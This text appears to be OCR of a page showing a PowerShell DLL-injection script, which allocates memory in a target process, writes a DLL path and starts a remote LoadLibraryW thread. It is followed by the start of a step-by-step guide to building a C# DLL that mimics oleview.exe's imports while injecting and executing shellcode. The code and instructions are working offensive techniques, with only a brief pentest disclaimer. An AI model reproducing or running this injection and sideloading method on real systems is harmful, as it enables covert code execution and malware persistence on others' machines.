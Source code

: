 ```powershell
$dllPathBytes = [System.Text.Encoding]::Unicode.GetBytes($dllPath)
$addr = [DllInjection.Kernel32]::VirtualAllocEx($hProcess, [IntPtr]::Zero, [uint32]($dllPathBytes.Length), $MEM_COMMIT -bor $MEM_RESERVE, $PAGE_READWRITE)
if ($addr -eq [IntPtr]::Zero) {
    Write-Host "Failed to allocate memory in target process."
    [DllInjection.Kernel32]::CloseHandle($hProcess)
    exit
}

$written = [IntPtr]::Zero
if (-not [DllInjection.Kernel32]::WriteProcessMemory($hProcess, $addr, $dllPathBytes, [uint32]$dllPathBytes.Length, [ref]$written)) {
    Write-Host "Failed to write memory in target process."
    [DllInjection.Kernel32]::CloseHandle($hProcess)
    exit
}

$hKernel32 = [DllInjection.Kernel32]::GetModuleHandle("kernel32.dll")
$hLoadLibraryW = [DllInjection.Kernel32]::GetProcAddress($hKernel32, "LoadLibraryW")
if ([DllInjection.Kernel32]::CreateRemoteThread($hProcess, [IntPtr]::Zero, 0, $hLoadLibraryW, $addr, 0, [ref]$null) -eq [IntPtr]::Zero) {
    Write-Host "Failed to create remote thread in target process."
    [DllInjection.Kernel32]::CloseHandle($hProcess)
    exit
}

Write-Host "DLL injected successfully."
[DllInjection.Kernel32]::CloseHandle($hProcess)
```

This PowerShell script opens the target process, allocates memory for the DLL path, writes the DLL path into the allocated memory, and then creates a remote thread to load the DLL into the target process.

Remember, any kind of DLL injection is considered malicious and should only be used for legitimate purposes in a controlled and authorized environment, such as during penetration testing with proper permissions.


### Look at DllExports NuGet package


To achieve the task of enumerating the DLL dependencies of `oleview.exe`, identifying the required functions, and creating a C# program that mimics these functions while injecting and executing shellcode, follow the steps outlined below:

### **Step 1: Enumerate Required DLLs and Functions**
1. **Use Dependency Walker**:
   - **Dependency Walker** is a tool that allows you to analyze the dependencies of a Windows executable (like `oleview.exe`). It can show which DLLs are required and what functions are imported from these DLLs.
   - **Steps**:
     1. Download and run [Dependency Walker](http://www.dependencywalker.com/).
     2. Open `oleview.exe` in Dependency Walker.
     3. Note the DLLs and the functions that `oleview.exe` requires.
